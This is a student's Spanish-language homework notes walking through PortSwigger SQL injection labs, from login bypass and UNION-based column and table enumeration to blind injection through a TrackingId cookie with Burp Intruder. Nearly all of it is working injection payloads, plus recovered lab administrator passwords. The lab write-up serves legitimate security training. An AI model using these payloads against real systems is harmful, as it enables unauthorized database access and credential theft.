

#  Tarea #985 Realizar los ejercicios de SQL Injection

## 1. LAB 1 SQLi
    * category '+OR+1=1--

---
## 2. LAB 2 SQLi
    * username 
        * administrator'--

---
## 3. [LAB 3 SQLi Determining the number of columns return by a query](https://www.youtube.com/watch?v=GP6CK03nDvw)
    * '+UNION+SELECT+NULL,NULL--
        * Firefox =! Foxyproxy 

---
## 4. [LAB 4 SQLi UNION attack finding a column containing text](https://www.youtube.com/watch?v=SGBTC5D7DTs&t=651s) 
    * '+UNION+SELECT+'abcdef',NULL,NULL--
        * category=Corporate+gifts ' UNION SELECT NULL, '7GBykY', NULL--

---
## 5. [LAB 5 SQLi UNION attack retrieving data from other tables](https://www.youtube.com/watch?v=6Dsj5SqR944)
    * category=Corporate+gifts '
        * category=Corporate+gifts ' order by 3--
            * category=Corporate+gifts ' UNION select 'a', NULL--
            * category=Corporate+gifts ' UNION select 'a', 'a'--
    * '+UNION+SELECT+username,+password+FROM+users--
        * administrator > b40kore6a4it6t57qcld     

---
       
## 6. [LAB 6 SQLi UNION attack retrieving multiple values in a single column](https://www.youtube.com/watch?v=yRVYoqR9vrI)
* [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
    * category=Gifts ' order by 1--
    * category=Gifts ' order by 2--
    * category=Gifts ' order by 3--
        * category=Gifts' UNION SELECT 'a', NULL-- 
        * category=Gifts ' UNION SELECT%20 NULL, 'a'--
            * category=Gifts ' UNION select NULL, username from users--
            * category=Gifts ' UNION select NULL, password from users--      
            * '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
                * administrator~mxe67qn75iadph7i4rl

## 7. [LAB 7 SQLi attack, querying the database type and version on MySQL and Microsoft](https://www.youtube.com/watch?v=7afmKPDaZtw&t=1s)
* En burp suit community enciende el "proxy" pones el link el laboratorio en el que trabajas "burp suite chromium" de ahi lo mandas al "repeater" y pones en lo siguiente 
    * '+UNION+SELECT+'abc','def'#
    * '+UNION+SELECT+@@version,+NULL#                            

* haz lo que se muestra en las imagenes y listo

## 8. [LAB 8 SQLi ](https://www.youtube.com/watch?v=JduM_dO8glw)
* '+UNION+SELECT+'abc','def'--
* '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
    * users_kxxzwr

* '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
    * '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kxxzwr'--
    

* username_adjuvf
* password_xmshnc
* users_kxxzwr

* '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
    *  '+UNION+SELECT+username_adjuvf,+password_xmshnc+FROM+users_kxxzwr--

    

* administrator
* wobskest29imovks75ay
---

## 9.[LAB 9 SQLi Blind SQL injection with conditional responses](https://www.youtube.com/watch?v=W3zvXK9i75A) 

* ### "Proxy" y luego "Repeater" 
* TrackingId=xyz' AND '1'='1

*  TrackingId=xyz' AND '1'='2

* TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

*  TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a

* TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

* ### Intruder
* TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§

*  Payload settings add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down. 

*  Settings tab, and the "Grep - Match"  add the value "Welcome back". 

* Cookie: TrackingId=A5wnpbmECJ7WwVJF' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'

* Cookie: TrackingId=ZyhiJiwjIThE9gYZ' and (select substring(password,§1§,1) from users where username='administrator')='§a§'--'; session=iU12vYKWPt8Nx0OyETqDVZwcKpXnOdXt

* Attack Type: [Cluster Bomb](https://www.youtube.com/watch?v=LBG_n9fr8sM&t=1546s)

* Payloads 1

* Payloads 2

* Armando la contraseña manualmente 

| POS 1  | POS 2  | POS 3  | POS 4  | POS 5  | POS 6  | POS 7  | POS 8  | POS 9  | POS 10 | POS 11 | POS 12 | POS 13 | POS 14 | POS 15 | POS 16 | POS 17 | POS 18 | POS 19 | POS 20 |
| ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ |
| Valor1 | e | 7| p | 2 | v | Valor7 | f | b | 4| d| 3| q| r| i| q| s| z| v| o|

663
e7p2vfb4d3qriqszvo

como la anterior mierda tarda un chingo tienes que reniciar casi todo. al chile que se pudra este laboratorio

